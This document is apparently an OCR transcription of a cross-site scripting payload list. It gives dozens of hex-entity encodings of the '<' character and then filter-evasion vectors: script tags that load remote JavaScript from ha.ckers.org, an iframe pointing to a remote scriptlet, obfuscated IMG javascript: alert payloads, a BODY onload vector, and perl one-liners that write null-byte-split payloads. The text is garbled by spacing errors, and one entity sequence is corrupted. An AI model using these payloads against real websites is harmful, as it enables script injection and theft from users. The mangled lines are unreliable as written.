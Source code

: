 & # x000003c;
& # X3c
& # X03c
& # X003c
& # X0003c
& # X00003c
& # X000003c
& # X3c;
& # X03c;
& # X003c;
& # X0003c;
& # X00003c;
& # X000003c;
& # x3C
& # x03C
& # x003C
& # x0003C
& # x00003C
& # x000003C
& # x3C;
& # x03C;
& # x003C;
& # x0003C;
& # x00003C;
& # x000003C;
& # X3C
& # X03C
& # X003C
& # X0003C
& # X00003C
& # X000003C
& # X3C;
& # X03C;
& # X003C;
& # X0003C;
& # X00003C;
& # X000003C;
\ x3c
\ x3C
\ u003c
\ u003C
& lt; iframe src = http & # 58; // ha & # 46; ckers & # 46; org / scriptlet & # 46; html & gt;
& lt; IMG SRC = \ "javascript & # 058; alert ('XSS') \"
& lt; SCRIPT SRC = // ha & # 46; ckers & # 46; org / & # 46; js & gt;
& lt; SCRIPT SRC = http & # 58; // ha & # 46; ckers & # 46; org / xss & # 46; js? & lt; B & gt;
& lt; & lt; SCRIPT & gt; alert (\ "XSS \"); // & lt; & lt; / SCRIPT & gt;
& lt; SCRIPT / SRC = \ "http & # 58; // ha & # 46; ckers & # 46; org / xss & # 46; js \" & gt; & lt; / SCRIPT & gt;
& lt; BODY onload! # $% & () * ~ + -_ & # 46;, & # 58 ;;? @ & # 91; / | \ & # 93; ^ `= alert (\" XSS \ ") & gt ;
& lt; SCRIPT / XSS SRC = \ "http & # 58; // ha & # 46; ckers & # 46; org / xss & # 46; js \" & gt; & lt; / SCRIPT & gt;
& lt; IMG SRC = \ "javascript & # 058; alert ('XSS'); \" & gt;
perl -e 'print \ "& lt; SCR \ 0IPT & gt; alert (\\" XSS \\ ") & lt; / SCR \ 0IPT & gt; \";' & gt; Fora
perl -e 'print \ "& lt; IMG SRC = java \ 0script & # 058; alert (\\" XSS \\ ") & gt; \";' & gt; Fora
& lt; IMG SRC = \ "jav & # x0D; ascript & # 058; alert ('XSS'); \" & gt;
& lt; IMG SRC = \ "jav & # x0A; ascript & # 058; alert ('XSS'); \" & gt;
& lt; IMG SRC = \ "jav & # x09; ascript & # 058; alert ('XSS'); \" & gt;
& lt; IMG SRC = & # x6A & # x61 & # x76 & # x61 & # x73 & # x63 & # x72 & # x69 & # x70 & # x74 & # x3A & # x61 & # x6C & # x65 & # x72 & # x74 & # x28 & # x27 & # x58 & # x53 & # x53 & # x53 # x29 & gt;
